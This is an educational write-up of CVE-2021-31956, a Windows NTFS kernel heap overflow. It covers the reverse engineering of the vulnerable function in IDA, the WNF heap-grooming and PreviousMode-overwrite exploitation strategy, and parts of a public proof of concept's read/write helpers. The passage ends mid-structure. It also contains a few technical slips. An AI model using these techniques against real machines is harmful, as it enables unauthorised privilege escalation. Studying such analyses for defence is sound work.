


# A Comprehensive Analysis of CVE-2021-31956

[Return to Home](../index.md)

# Table of Contents

- [Introduction](#introduction)
- [Reverse Engineering CVE-2021-31956](#reverse-engineering-the-vulnerability)
- [Exploiting CVE-2021-31956](#exploiting-cve-2021-31956)
- [References](#references)

# Introduction

[Return to Top](#table-of-contents)

CVE-2021-31956 is a Windows kernel local privilege escalation vulnerability found in multiple Windows versions including but not limited to [Windows 10 20H2](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31956). The computer security company Kaspersky first detected the vulnerability as a actively-exploited issue found [in-the-wild](https://securelist.com/puzzlemaker-chrome-zero-day-exploit-chain/102771/).

# Reverse Engineering CVE-2021-31956

[Return to Top](#table-of-contents)

To start things off with, we will examine the advisory posted by Kaspersky and then use the information provided to find the vulnerability ourselves. 

## The Initial Advisory

[Return to Top](#table-of-contents)

The relevant portions of the vulnerability [advisory](https://securelist.com/puzzlemaker-chrome-zero-day-exploit-chain/102771/) posted by Kaspersky is as follows: 

> The other vulnerability, CVE-2021-31956, is a heap-based buffer overflow in `ntfs.sys`. The function `NtfsQueryEaUserEaList` processes a list of extended attributes for the file and stores the retrieved values to a buffer. This function is accessible via a `ntoskrnl` system call and among other things it's possible to control the size of the output buffer. If the size of the extended attribute is not aligned, the function will calculate a padding and the next extended attribute will be stored at a 32-bit alignment. The code then checks if the output buffer is long enough to fit the extended attribute with padding, but it doesn't check for a possible integer underflow. As a result, a heap-based buffer overflow can occur. 

> The exploit uses CVE-2021-31956 alongside the Windows Notification Facility (WNF) to create arbitrary memory read and write primitives. We are planning to publish more information about this technique in the future. 

> As the exploit uses CVE-2021-31955 to get the kernel address of the EPROCESS structure, it is able to use the common post-exploitation technique to steal the SYSTEM token. However, the exploit uses a rarely used "PreviousMode" technique instead. We have seen this technique used by the CHAINSHOT framework and even made a presentation about it at CanSecWest/BlueHat in 2019. The exploit then uses this technique to inject a malware module into the system process and executes it. 

Alongside the advisory, Kaspersky also posted the following pseudocode highlighting the vulnerable code in the `NtfsQueryEaUserEaList` function: 

```cpp
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = next_ea_list_entry )
{
  ...
 
  out_buf_pos = (DWORD *)(out_buf + padding + occupied_length);
 
  if ( NtfsLocateEaByName(eas_blocks_for_file, eas_blocks_size, &name, &ea_block_pos) )
  {
	ea_block = eas_blocks_for_file + ea_block_pos;
	ea_block_size = ea_block->DataLength + ea_block->NameLength + 9;
	if ( ea_block_size <= out_buf_length - padding ) // integer-underflow is possible
	{
  	memmove(out_buf_pos, (const void *)ea_block, ea_block_size); // heap buffer overflow
  	*out_buf_pos = 0;
	}
  }
  else
  {
	...
  }
 
  ...
 
  occupied_length += ea_block_size + padding;
  out_buf_length -= ea_block_size + padding;
  padding = ((ea_block_size + 3) & 0xFFFFFFFC) - ea_block_size;
 
  ...
}
```

Based on the analysis performed by [Y3A](https://y3a.github.io/2022/09/03/cve-2021-31956/), we can summarize the advisory as follows: 

> There is a heap-based buffer overflow from an integer-underflow in the `ntfs.sys` function `NtfsQueryEaUserEaList` which is accessible via a `ntoskrnl.exe` system call. After gaining a kernel-mode write primitive, the exploit uses CVE-2021-31956 with the Windows Notification Facility and an `PreviousMode` overwrite technique for the exploit's `EPROCESS` structure.

We can now move onto finding the vulnerability ourselves.

## Recreating CVE-2021-31956

[Return to Top](#table-of-contents)

This next section focuses on how to find the vulnerability using IDA and WinDbg. In particular, we will be discussing the steps needed to both recreate the work already done by the vulnerability advisory as well as other researchers. 

### Locating NtfsQueryEaUserEaList in IDA

Our focus now is to locate the function `NtfsQueryEaUserEaList` in a vulnerable version of `ntfs.sys`. In our case, we will be using a version from Windows 10 20H2. Once we have a version of the vulnerable driver, we will open it in IDA and locate `NtfsQueryEaUserEaList` in IDA: 


As well as examining the pseudocode as shown in the advisory, we will also be looking through each basic block as it corresponds to the pseudocode. When we first generate the pseudocode for `NtfsQueryEaUserEaList`, we notice that we are missing both the variable names and possibly a data structure: 

```cpp
for ( i = a6; ; i = (unsigned int *)((char *)i + *i) )
{
    //...
    v16 = (_DWORD *)(a4 + v9 + v26);
    if //...
    {
        //...
        if ( (unsigned __int8)NtfsLocateEaByName(a2, *(unsigned int *)(a3 + 4), &DestinationString, &v21) )
        {
            v20 = a2 + v21;
            v17 = *(unsigned __int16 *)(v20 + 6) + *(unsigned __int8 *)(v20 + 5) + 9;
            if ( v17 <= a5 - v9 )
            {
            memmove(v16, (const void *)v20, v17);
            *v16 = 0;
            goto LABEL_8;
            }
        }
        else
        {
            //...
            if //...
            {
                //...
                if //...
                {
                    if //...
                    {
                        v23 = v16;
                        a5 -= v17 + v9;
                        v9 = ((v17 + 3) & 0xFFFFFFFC) - v17;
                        goto LABEL_24;
                    }
                }
                //...
            }
        }
        //...
    }
    //...
}
```

It is interesting to note that the our disassembly that IDA produced is quite different from the advisory. This may be due to a different vulnerable version of `ntfs.sys`. However, we will not worry about it for now as it does not seem to impact the exploitability of this bug. 

### Adding a Custom Data Structure in IDA

Now that we have located the vulnerable function ourselves, let's proceed to recreate the data structure shown in the advisory: 

```cpp
ea_block_size = ea_block->DataLength + ea_block->NameLength + 9;
```

Here, we see that this structure provides extended attributes with two separate types of lengths. Now, using the search query 

> extended attribute length structure microsoft

We get the following two results: 



We examine both structures, and we discover the `FILE_FULL_EA_INFORMATION` structure is the only structure out of the two to have two separate lengths defined: 

```cpp
typedef struct _FILE_FULL_EA_INFORMATION {
  ULONG  NextEntryOffset;
  UCHAR  Flags;
  UCHAR  EaNameLength;
  USHORT EaValueLength;
  CHAR   EaName[1];
} FILE_FULL_EA_INFORMATION, *PFILE_FULL_EA_INFORMATION;
```

Now that we have the associated structure for the vulnerable code in `NtfsQueryEaUserEaList`, we will now go to *View -> Open subviews -> Local types*:


Once there, we will then right click within the view and select *Insert*:


A dialog box will then appear, within the dialog box we paste the `FILE_FULL_EA_INFORMATION` structure: 


We then click *Ok* and head back to the variable `v20`, right-click on it, and select *Convert to struct*...*:


We will then go to our entry for `FILE_FULL_EA_INFORMATION`, select it, and click *Ok*: 


At this point, we see that our data structure updated within IDA: 


### Renaming Variables in IDA

Now that we have added our custom data structure, we can proceed to rename our variables in IDA to that of the variables provided in the initial advisory: 

```cpp
for ( cur_ea_list_entry = ea_list;
          ;
          cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
{
    //...
    if //...
    {
        //...
        out_buf_pos = (_DWORD *)(out_buf + padding + occupied_length);
        if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
        {
          ea_block = (_FILE_FULL_EA_INFORMATION *)(eas_blocks_for_file + ea_block_pos);
          ea_block_size = ea_block->EaValueLength + ea_block->EaNameLength + 9;
          if ( ea_block_size <= out_buf_length - padding )
          {
            memmove(out_buf_pos, ea_block, ea_block_size);
            *out_buf_pos = 0;
            goto LABEL_8;
          }
        }
        else
        {
            //...
            if //...
            {
                //...
                if //...
                {
                    if //...
                    {
                        v23 = out_buf_pos;
                        out_buf_length -= ea_block_size + padding;
                        padding = ((ea_block_size + 3) & 0xFFFFFFFC) - ea_block_size;
                        //...
                    }
                }
                //...
            }
        }
        //...
    }
```

One thing to note is that we are missing the `eas_blocks_size` parameter as our version of `ntfs.sys` uses a data structure value instead of a direct parameter as in the advisory. In addition, the iteration of `occupied_length` is slightly different.Finally, the way the `for` loop iterates through each entry is counted differently. However, since these differences do not seem to impact the exploit, we will ignore them. 

### Analyzing the Basic Blocks and Pseudocode in IDA

Now that we have all pertinent data structures and variables in the vulnerable function `NtfsQueryEaUserEaList`, let's proceed to include more of the pseudocode to then better learn why this vulnerability exists in the first place. We will take the pseudocode provided by the Alex Plaskett in their [analysis of CVE-2021-31956](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/) and recontextualize it to our version of `ntfs.sys`: 

```cpp
__int64 __fastcall NtfsQueryEaUserEaList(
        __int64 a1,
        __int64 eas_blocks_for_file,
        __int64 a3,
        __int64 out_buf,
        unsigned int out_buf_length,
        unsigned int *ea_list,
        char a7)
{
  //...
  unsigned int padding; // r15d
  //...
  padding = 0;
  occupied_length = 0;
  while ( 1 )
  {
    //...
    for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
    {
      if ( cur_ea_list_entry == v11 )
      {
        v15 = occupied_length;
        out_buf_pos = (_DWORD *)(out_buf + padding + occupied_length);
        if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
        {
          ea_block = (_FILE_FULL_EA_INFORMATION *)(eas_blocks_for_file + ea_block_pos);
          ea_block_size = ea_block->EaValueLength + ea_block->EaNameLength + 9;
          if ( ea_block_size <= out_buf_length - padding )
          {
            memmove(out_buf_pos, ea_block, ea_block_size);
            *out_buf_pos = 0;
            goto LABEL_8;
          }
        }
        else
        {
          ea_block_size = *((unsigned __int8 *)v11 + 4) + 9;
          if ( ea_block_size + padding <= out_buf_length )
          {
            //...
            *((_BYTE *)out_buf_pos + *((unsigned __int8 *)v11 + 4) + 8) = 0;
            //...
            v18 = ea_block_size + padding + v15;
            occupied_length = v18;
            if ( !a7 )
            {
              if ( v23 )
                *v23 = (_DWORD)out_buf_pos - (_DWORD)v23;
              if ( *v11 )
              {
                v23 = out_buf_pos;
                out_buf_length -= ea_block_size + padding;
                padding = ((ea_block_size + 3) & 0xFFFFFFFC) - ea_block_size;
                goto LABEL_24;
              }
            }
            //...
          }
        }
        //...
      }
      //...
    }
    //...
  }
  //...
}
```

Now that we have the recontextualized pseudocode of `NtfsQueryEaUserEaList`, let's walk through what a syscall to `NtfsQueryEaUserEaList` would look like alongside each basic block. 

### Examining a Syscall to NtfsQueryEaUserEaList

For this section, we will be walking through the analysis done by the Alex Plaskett in their [blog post](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/) analyzing CVE-2021-31956. To start things off, let's examine both the `for` loop and the primary `if` condition vulnerable to CVE-2021-31965: 

```cpp
//...
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
    {
      if ( cur_ea_list_entry == v11 )
      {
        //...
         if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
        {
          ea_block = (_FILE_FULL_EA_INFORMATION *)(eas_blocks_for_file + ea_block_pos);
          ea_block_size = ea_block->EaValueLength + ea_block->EaNameLength + 9;
          if ( ea_block_size <= out_buf_length - padding )
          {
            memmove(out_buf_pos, ea_block, ea_block_size);
            *out_buf_pos = 0;
            goto LABEL_8;
          }
      }
      //...
    }
    //...
}
```

Looking at the basic block representation, we see that the `for` loop starts here: 


As we can see, each value in `cur_ea_list_entry` is checked against `v11` or in other words, the value in the register RBX is compared to the value in R12. If the value in RBX is not equal to the value in R12, the loop takes the green code path. According to the advisory, the vulnerable function path for CVE-2021-31956 occurs when this basic block fails the check and takes the red code path. So far we have covered the following loop and check from our pseudocode: 

```cpp
//...
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
    {
      if ( cur_ea_list_entry == v11 )
      {
        // WE ARE HERE
    }
    //...
}
```

We proceed to examine the next basic block we reach after not jumping with the JNZ instruction: 


Now, according to the advisory, we want to pass this check and jump with the JNZ instruction. We can assume that the `NtfsLocateEaByName` probably checks if an Extended Attribute is present, and if so return 0 and jump. We now have covered the next `if` condition and we reexamine our position within the pseudocode: 

```cpp
//...
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
    {
      if ( cur_ea_list_entry == v11 )
      {
        v15 = occupied_length;
        out_buf_pos = (_DWORD *)(out_buf + padding + occupied_length);
        if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
        {
          // WE ARE HERE
        }
        //...
    }
    //...
}
```

We've now reached the vulnerable code inside of `NtfsQueryEaUserEaList`: 


Looking at the diagram above, we can see two specific things: 

1. According to the x64 fastcall calling convention, RDX is the second input parameter for a function call. In our case, we know that RDX is user-controlled as per the advisory from Kaspersky.Therefore, we move onto the second observation. 
2. If our controlled value is less than *or equal to* the output buffer length minus the padding, we pass the `if` condition. 

Now since we control half of the vulnerable `if` comparison, we should look further into what the other half entails. We continue to follow the basic block code path until we reach the code that sets the size of the `padding`: 


Here, based again off of the information provided in the [advisory](https://securelist.com/puzzlemaker-chrome-zero-day-exploit-chain/102771/), we see that the padding is calculated in such a way to store the next extended attribute with a 32-bit alignment. 

This is where the vulnerability occurs. If an attacker is able to create a perfectly aligned output buffer, we would pass the check where the `ea_block_size` variable is less than *or equal to* the output buffer's length minus a padding of 0. 

# Exploiting CVE-2021-31956

[Return to Top](#table-of-contents)

Now that we have an understanding of the vulnerability. We can now proceed to examine both the exploit used and the context in which it was originally discovered. 

## Returning to the Advisory

[Return to Top](#table-of-contents)

Before striking out on our own, let's go ahead and review the information already provided by Kaspersky in their advisory for CVE-2021-31956. 

### Exploit Chain

In Kaspersky's initial triage of the discovery, CVE-2021-31956 was part
of a larger chain of vulnerabilities used to escape the Google Chrome
browser and use CVE-2021-31956 to escalate privileges and gain remote
code execution as the Windows kernel.

As mentioned previously, the attackers used
[CVE-2021-21224](https://nvd.nist.gov/vuln/detail/CVE-2021-21224) as a means to escape the Chrome
sandbox and gain remote code execution. Then, the attackers seemingly
used another exploit, chiefly [CVE-2021-31955](https://nvd.nist.gov/vuln/detail/CVE-2021-31955) to
obtain the kernel address of the current process' `EPROCESS` value
to then overwrite the `PreviousMode` offset to then set the current process'
context to that of `SYSTEM`.

### EPROCESS Structure

What is the `EPROCESS` structure? According to [Microsoft](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/eprocess): 

> The EPROCESS structure is an opaque structure that serves as the process object for a process.

In layman's terms, this basically means that if an attacker obtains the `EPROCESS` memory address for their current process, if they had a kernel-mode write primitive, they would be able to escalate their privileges to `SYSTEM`. The specifics of this technique is described in the next section. 

### PreviousMode Overwrite

As noted by Kaspersky, traditionally, an attacker would steal the `SYSTEM` token to escalate privileges. However, by overwriting the `PreviousMode` field with `0x0`, it is possible to then execute various routines from user-made in kernel-mode. This means that with the `PreviousMode` field set to `0x0`, parameters are trusted and thus are not checked by the kernel. 

Now that we have a basic grasp of the context of what CVE-2021-31956 does and how it was discovered, let's now explore the proof-of-concept used to exploit this vulnerability. 

## Exploitation Overview

[Return to Top](#table-of-contents)

In order to arbitrarily read and write to anywhere in memory, we will need to first groom the heap until our NTFS buffer is next to a `_WNF_STATE_DATA` chunk. Then, we will need to overflow the `AllocatedSize` and `DataSize` fields within the `_WNF_STATE_DATA` chunk. The `AllocatedSize` and `DataSize` fields now provide us with the ability to read and write within the pool after this chunk. Specifically, `AllocatedSize` determines the number of bytes that can be written whereas `DataSize` determines the number of bytes that can be read. Using this read and write ability, we will then locate a `_WNF_NAME_INSTANCE` chunk and read it's `StateName` to . In addition, we will use our write to overwrite the `StateData` parameter in the `_WNF_NAME_INSTANCE` chunk to point anywhere in memory, so long as the location in memory has a `_WNF_STATE_DATA` structure. 



## Examining Y3A's Proof-of-Concept

[Return to Top](#table-of-contents)

In this section we will be looking at the approach [Y3A](https://y3a.github.io/) took to exploit CVE-2021-31956. Our goal is to break down every section and understand exactly why the exploit works and the concepts behind each technique used. 

### Include Directives

Now that we understand the context in which the vulnerability was originally used, let's explore the proof-of-concept [Y3A](https://github.com/Y3A) of Star Labs created to exploit CVE-2021-31956.

To start things off, we will examine the import section of the
proof-of-concept. As with most C++ source code, the first section is
usually a series of `#include` directives:

```cpp
#include <stdio.h>
#include <Windows.h>
#include <ntstatus.h>
#include <TlHelp32.h>
#include "CVE-2021-31956.h"
```

As defined by [Microsoft](https://learn.microsoft.com/en-us/cpp/preprocessor/hash-include-directive-c-cpp?view=msvc-170), the `#include`
directive informs the C++ preprocessor to add the contents of the
specified file at the location of the `#include` directive in the source
code.

Looking at the above code block, we notice the first four `#include`
directives use angle bracket notation whereas the last `#include`
directive uses the quotation notation to describe the target header
file. According to the [GNU Foundation](https://gcc.gnu.org/onlinedocs/cpp/Include-Syntax.html), angle brackets
or `#include <file>` are used to specify system header files. However,
double quotation marks or `#include "file"` are used to define a
user-generated header file. The search location for angle bracket
`#include` directives is within a standard list of system directories
whereas for double quotation mark `#include` directives the search
location is within the directory of the source code.

### NULL-Pointer Declarations

Moving on, we now examine the NULL-pointer declaration and type-casting
used prior to the `main` function:

```cpp
NQSI _NtQuerySystemInformation = (NQSI)NULL;
NQEF _NtQueryEaFile = (NQEF)NULL;
NSEF _NtSetEaFile = (NSEF)NULL;
NCWSN _NtCreateWnfStateName = (NCWSN)NULL;
NUWSD _NtUpdateWnfStateData = (NUWSD)NULL;
NDWSN _NtDeleteWnfStateName = (NDWSN)NULL;
NDWSD _NtDeleteWnfStateData = (NDWSD)NULL;
NQWSD _NtQueryWnfStateData = (NQWSD)NULL;
NRVM _NtReadVirtualMemory = (NRVM)NULL;
NWVM _NtWriteVirtualMemory = (NWVM)NULL;
```

In order to effectively break each line down, we will also pair each
NULL-pointer declaration and type-casting to its respective type
definition found in the `CVE-2021-31956.h` header file. To start things
off, let's look at the first line:

```cpp
NQSI _NtQuerySystemInformation = (NQSI)NULL;
```

Here, we see that the variable `_NtQuerySystemInformation` is of type
`NQSI` with the same type being type-cast to the value `NULL`. According
to [East Carolina University](http://www.cs.ecu.edu/karl/3300/spr14/Notes/C/typedef.html), it is possible to use
`typedef` to give a function type a name. For example,

```cpp
typedef NTSTATUS(NTAPI *NQSI) (
    IN SYSTEM_INFORMATION_CLASS SystemInformationClass,
    OUT PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength OPTIONAL
    );
```

Would define the function pointer `NQSI` of type `NTAPI` to be the type
of the function that takes 4 arguments and returns an `NTSTATUS` value.
Without loss of generality, it is possible to use this same approach to
the other NULL-pointer declarations and type-castings.

### The write64 Function

Looking at the `write64` function declaration, namely:

```cpp
void write64(ULONG_PTR addr, UINT64 data)
```

We notice it has a return value of `void` indicating that it does not
return a value. In addition, we see that it takes a Unsigned Long
pointer and a Unsigned 64-bit integer as input. Examining the function
definition we see the following:

```cpp
char    buf[8] = { 0 };
ULONG   wrote;

*(UINT64 *)buf = data;
_NtWriteVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &wrote);

return;
```

First, a `char` array called `buf` and of size `8` with its elements
initialized to `0`. We also notice the variable `wrote` is declared of
type `ULONG`. According to [Microsoft](https://learn.microsoft.com/en-us/dotnet/visual-basic/language-reference/data-types/ulong-data-type), a `ULong`
data type contains an `8`-byte unsigned integer. Next, we see the
pointer `buf` being cast to a pointer of type `UINT64` before being
dereferenced and given the value of `data`. As such, the datatype of the
content pointed to by `buf` will now be interpreted as a `UINT64`, in this
case as a 64-bit unsigned integer.

Before examining the final line, let's look at the type definition for
the `NWVM` datatype:

```cpp
typedef NTSTATUS (NTAPI *NWVM)(
    IN HANDLE               ProcessHandle,
    IN PVOID                BaseAddress,
    IN PVOID                Buffer,
    IN ULONG                NumberOfBytesToWrite,
    OUT PULONG              NumberOfBytesWritten OPTIONAL
);
```

We are looking at the type definition for `NWVM` as a function prototype
for `_NtWriteVirtualMemory` does not exist in this file and it seems
what the author did was use the NULL-pointer declaration and
type-casting

```cpp
NWVM _NtWriteVirtualMemory = (NWVM)NULL;
```

To create a NULL-pointer named `_NtWriteVirtualMemory` of type `NWVM`
where they then called this pointer in the third to final line in
`write64`:

```cpp
_NtWriteVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &wrote);
```

As we can see from the `NWVM` datatype type definition, we have the
following observations:

* The returned handle from `GetCurrentProcess()` is passed as `ProcessHandle`.
* The void pointer `addr` provided as the first input value is passed as `BaseAddress`.
* The Unsigned 64-bit integer pointer `buf` is passed as `Buffer` which has the void pointer datatype.
* The hexadecimal value `0x8` is passed as the Unsigned Long `NumberOfBytesToWrite`.
* The memory address `&wrote` is passed as the output buffer `NumberOfBytesWritten`.

Interestingly enough, since `_NtWriteVirtualMemory` was not called as a
function, but rather as a pointer to a structure, the return value is
not assigned to a variable within the function. Instead after calling
`_NtWriteVirtualMemory`, the function simply returns with no return
value.

Based on our analysis, we can conclude that the purpose of this function is to call `NtWriteVirtualMemory` and subsequently write the content `buf` at the location `addr`. 

### The read64 Function

Looking at the `read64` function declaration, we see that it accepts a
Unsigned Long pointer called `addr` as input and returns a Unsigned
64-bit integer:

```
UINT64 read64(ULONG_PTR addr)
```

Next, as with the `write64` function, we notice that a `char` array and
a Unsigned Long value are declared with the `buf` character array being
initialized to `0`:

```cpp
char    buf[8] = { 0 };
ULONG   read;
```

Before examining the NULL-pointer function call, let's look at the pointer type definition for `NRVM`: 

```cpp
typedef NTSTATUS (NTAPI *NRVM)(
    IN HANDLE               ProcessHandle,
    IN PVOID                BaseAddress,
    OUT PVOID               Buffer,
    IN ULONG                NumberOfBytesToRead,
    OUT PULONG              NumberOfBytesReaded OPTIONAL
);
```

Here, we see a similar structure to that of `_NtWriteVirtualMemory`. As such, we won't go into as much detail except to break down the values passed from `writ64` to the NULL-pointer function call: 

```cpp
_NtReadVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &read);
```

We can see the following:

* The `HANDLE` from `GetCurrentProcess()` is passed as `ProcessHandle`.
* The `addr` provided as input to `write64` function is passed as the `BaseAddress`. 
* The initialized buffer `buf` is then passed as the output buffer `Buffer`. 
* The value `0x8` is passed as the `NumberOfBytesToRead`.
* The address to the Unsigned Long value `read` is passed as `&read`.

Finally, the `write64` function returns a pointer to the Unsigned 64-bit integer output buffer `buf`:

```cpp
return *(UINT64 *)buf;
```

In conclusion, our analysis shows that the purpose of this function is call `NtReadVirtualMemory` and return the contents `buf` from the address `addr`.

### The fix_runrefs Function

Reviewing the [blog post by Y3A](https://y3a.github.io/2022/09/03/cve-2021-31956/), we see that the `fix_runrefs` function is used to clean up the heap after exploiting CVE-2021-31956. 

Reviewing the exploitation process covered in [Exploitation Overview](#exploitation-overview), We notice that in order to overwrite the target `StateData` pointer, the preceding members in the `_WNF_NAME_INSTANCE` data structure may also be overwritten. Reviewing the `_WNF_NAME_INSTANCE` data structure from the [Vergilius Project](https://www.vergiliusproject.com/kernels/x64/Windows%2011/21H2%20(RTM)/_WNF_NAME_INSTANCE), we see the following: 

```cpp
//0xa8 bytes (sizeof)
struct _WNF_NAME_INSTANCE
{
    struct _WNF_NODE_HEADER Header;                                         //0x0
    struct _EX_RUNDOWN_REF RunRef;                                          //0x8
    struct _RTL_BALANCED_NODE TreeLinks;                                    //0x10
    struct _WNF_STATE_NAME_STRUCT StateName;                                //0x28
    struct _WNF_SCOPE_INSTANCE* ScopeInstance;                              //0x30
    struct _WNF_STATE_NAME_REGISTRATION StateNameInfo;                      //0x38
    struct _WNF_LOCK StateDataLock;                                         //0x50
    struct _WNF_STATE_DATA* StateData;                                      //0x58
    ULONG CurrentChangeStamp;                                               //0x60
    VOID* PermanentDataStore;                                               //0x68
    struct _WNF_LOCK StateSubscriptionListLock;                             //0x70
    struct _LIST_ENTRY StateSubscriptionListHead;                           //0x78
    struct _LIST_ENTRY TemporaryNameListEntry;                              //0x88
    struct _EPROCESS* CreatorProcess;                                       //0x98
    LONG DataSubscribersCount;                                              //0xa0
    LONG CurrentDeliveryCount;                                              //0xa4
}; 
```

As we can see, the `RunRef` member is located at an offset lower than that of `StateData`. As a result, it is possible for the `RunRef` member to be set to an invalid value during the exploitation process. If this is the case, the target system may crash and result in a Blue Screen of Death (BSOD). In order to prevent this from happening, the `fix_runrefs` function locates all affected `_WNF_NAME_INSTANCE` in memory by traversing the `WnfContext` field within our process's `_EPROCESS`. Once a `_WNF_NAME_INSTANCE` block is found, the `RunRef` member is set to `0`. This is done since the `RunRef` member is a reference counter and by setting it to zero, we can avoid any issues if the system ever tries to use the this field. 

Examining the function declaration for `fix_runrefs`, we see the following: 

```cpp
NTSTATUS fix_runrefs(_In_ PWNF_PROCESS_CONTEXT ctx)
```

The first thing we notice the [SAL Annotation](https://learn.microsoft.com/en-us/previous-versions/visualstudio/visual-studio-2012/hh916383(v=vs.110)?redirectedfrom=MSDN) `_In_`. SAL Annotation, or Source-code Annotation Language, is defined by Microsoft as: 

> A set of annotations that you can use to describe how a function uses its parameters, the assumptions that it makes about them, and the guarantees that it makes when it finishes. Visual Studio code analysis for C++ uses SAL annotations to modify its analysis of functions. [...] Simply stated, SAL is an inexpensive way to let the compiler check your code for you.

According to Microsoft, `_In_` or Input to called function, is used as a way to label data as: 

> Being passed to the called function, and is treated as read-only. 

Next, we examine the pointer declaration for `PWNF_PROCESS_CONTEXT`:

```cpp
typedef struct _WNF_PROCESS_CONTEXT
{
    struct _WNF_NODE_HEADER Header;                                         //0x0
    struct _EPROCESS *Process;                                              //0x8
    struct _LIST_ENTRY WnfProcessesListEntry;                               //0x10
    VOID *ImplicitScopeInstances[3];                                        //0x20
    struct _WNF_LOCK TemporaryNamesListLock;                                //0x38
    struct _LIST_ENTRY TemporaryNamesListHead;                              //0x40
    struct _WNF_LOCK ProcessSubscriptionListLock;                           //0x50
    struct _LIST_ENTRY ProcessSubscriptionListHead;                         //0x58
    struct _WNF_LOCK DeliveryPendingListLock;                               //0x68
    struct _LIST_ENTRY DeliveryPendingListHead;                             //0x70
    struct _KEVENT *NotificationEvent;                                      //0x80
} WNF_PROCESS_CONTEXT, *PWNF_PROCESS_CONTEXT;
```

We now know that the value `ctx` is a pointer to a `_WNF_PROCESS_CONTEXT` structure and is treated as read-only. Now that we have an understanding of the function declaration, let's move onto the function definition for `fix_runrefs`. In particular, let's first examine the first variable definition: 

```cpp
NTSTATUS            status = STATUS_SUCCESS;
```

As shown above, we have a variable `status` of type `NTSTATUS` that contains the value `0x00000000` otherwise known as `STATUS_SUCCESS`. Interestingly enough, this value seemingly does not change and will always return `STATUS_SUCCESS` at the end of the function. Let's move onto the `head` variable:

```cpp
PLIST_ENTRY         head = (PLIST_ENTRY)read64(&(ctx->TemporaryNamesListHead));
```

The next variable is `head`, of type `PLIST_ENTRY`, and is set to the `TemporaryNamesListHead` member of the `_WNF_PROCESS_CONTEXT` structure pointed to by `ctx`. Let's take a moment to further break apart this variable definition. First, let's use the prototype provided by [NirSoft](https://www.nirsoft.net/kernel_struct/vista/LIST_ENTRY.html) to examine the data structure that `PLIST_ENTRY` points to: 

```cpp
typedef struct _LIST_ENTRY
{
     PLIST_ENTRY Flink;
     PLIST_ENTRY Blink;
} LIST_ENTRY, *PLIST_ENTRY;
```

As we can see, `PLIST_ENTRY` points to a `_LIST_ENTRY` structure. In our case, this structure is located at the memory address found in the `TemporaryNamesListHead` member of the `ctx` pointer. Examining the `_WNF_PROCESS_CONTEXT` structure from the [Vergilius Project](https://www.vergiliusproject.com/kernels/x64/Windows%2011/21H2%20(RTM)/_WNF_PROCESS_CONTEXT), we see the following: 

```cpp
//0x88 bytes (sizeof)
